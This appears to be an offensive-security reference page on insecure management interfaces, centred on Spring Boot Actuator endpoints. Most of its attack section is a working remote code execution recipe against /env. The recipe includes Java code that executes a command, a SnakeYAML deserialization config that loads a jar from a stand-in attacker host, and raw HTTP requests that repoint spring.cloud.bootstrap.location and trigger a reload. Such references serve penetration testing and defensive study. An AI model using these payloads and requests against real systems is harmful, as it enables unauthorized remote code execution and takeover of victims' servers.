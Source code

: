 # Insecure Management Interface

> Insecure Management Interface refers to vulnerabilities in administrative interfaces used for managing servers, applications, databases, or network devices. These interfaces often control sensitive settings and can have powerful access to system configurations, making them prime targets for attackers.

> Insecure Management Interfaces may lack proper security measures, such as strong authentication, encryption, or IP restrictions, allowing unauthorized users to potentially gain control over critical systems. Common issues include using default credentials, unencrypted communications, or exposing the interface to the public internet.


## Summary

* [Springboot-Actuator](#springboot-actuator)
    * [Remote Code Execution via /env](#remote-code-execution-via-env)
* [References](#references)


## Springboot-Actuator

Actuator endpoints let you monitor and interact with your application. 
Spring Boot includes a number of built-in endpoints and lets you add your own. 
For example, the `/health` endpoint provides basic application health information. 

Some of them contains sensitive info such as :

- `/trace` - Displays trace information (by default the last 100 HTTP requests with headers).
- `/env` - Displays the current environment properties (from Spring’s ConfigurableEnvironment).
- `/heapdump` - Builds and returns a heap dump from the JVM used by our application.
- `/dump` - Displays a dump of threads (including a stack trace).
- `/logfile` - Outputs the contents of the log file.
- `/mappings` - Shows all of the MVC controller mappings.

These endpoints are enabled by default in Springboot 1.X.
Note: Sensitive endpoints will require a username/password when they are accessed over HTTP.

Since Springboot 2.X only `/health` and `/info` are enabled by default.


### Remote Code Execution via `/env`

Spring is able to load external configurations in the YAML format.
The YAML config is parsed with the SnakeYAML library, which is susceptible to deserialization attacks.
In other words, an attacker can gain remote code execution by loading a malicious config file.


#### Steps

1. Generate a payload of SnakeYAML deserialization gadget.

- Build malicious jar
```bash
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload
# Edit the payload before executing the last commands (see below)
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

- Edit src/artsploit/AwesomeScriptEngineFactory.java

```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("ping rce.poc.attacker.example"); // COMMAND HERE
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

- Create a malicious yaml config (yaml-payload.yml)

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker.example/yaml-payload.jar"]
  ]]
]
```


2. Host the malicious files on your server.

- yaml-payload.jar
- yaml-payload.yml


3. Change `spring.cloud.bootstrap.location` to your server.

```
POST /env HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://attacker.example/yaml-payload.yml
```

4. Reload the configuration.

```
POST /refresh HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```


## References

- [Exploiting Spring Boot Actuators - Michael Stepankin - Feb 25, 2019](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)
- [Springboot - Official Documentation - May 9, 2024](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-endpoints.html)